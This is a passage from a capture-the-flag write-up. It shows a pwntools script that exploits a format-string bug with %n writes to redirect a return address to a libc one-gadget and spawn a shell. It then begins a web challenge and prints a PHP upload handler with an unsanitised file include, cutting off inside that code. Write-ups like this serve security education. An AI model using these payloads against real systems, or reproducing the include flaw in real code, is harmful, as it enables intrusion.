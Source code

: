 ```py

def main():
    global io

    # good luck pwning :)

    """
    0xc9620 execve("/bin/sh", rsi, rdx)
    constraints:
      [rsi] == NULL || rsi == NULL
      [rdx] == NULL || rdx == NULL
    """
    payload = "%*1$.d"  # read a stack address as padding
    payload += "%56c"  # offset from the stack address to the return address stack address
    payload += "%13$n"  # offset for the pointer to a stack pointer
    io.sendlineafter(b"leek? ", payload.encode())

    payload = "%*12$.d"  # read a libc address as padding
    payload += "%678166c"  # offset from that libc address to the onegadget
    payload += "%42$n"  # offset of the pointer to return address
    io.sendlineafter(b"leek? ", payload.encode())

    io.interactive()


if __name__ == "__main__":
    main()
```

# Web

## Filestore

We are given the source code for a simple PHP application, as well as a Dockerfile and a couple of ELFs.

The PHP source is the following:

```php
<?php
    if($_SERVER['REQUEST_METHOD'] == "POST"){
        if ($_FILES["f"]["size"] > 1000) {
            echo "file too large";
            return;
        }

        $i = uniqid();

        if (empty($_FILES["f"])){
            return;
        }

        $where = "./uploads/" . $i . "_" . hash('sha256', $_FILES["f"]["name"]) . "_" . $_FILES["f"]["name"];
        print($where);
        if (move_uploaded_file($_FILES["f"]["tmp_name"], $where)){
            echo "upload success";
        } else {
            echo "upload error";
        }
    } else {
        if (isset($_GET["f"])) {
            include "./uploads/" . $_GET["f"];
```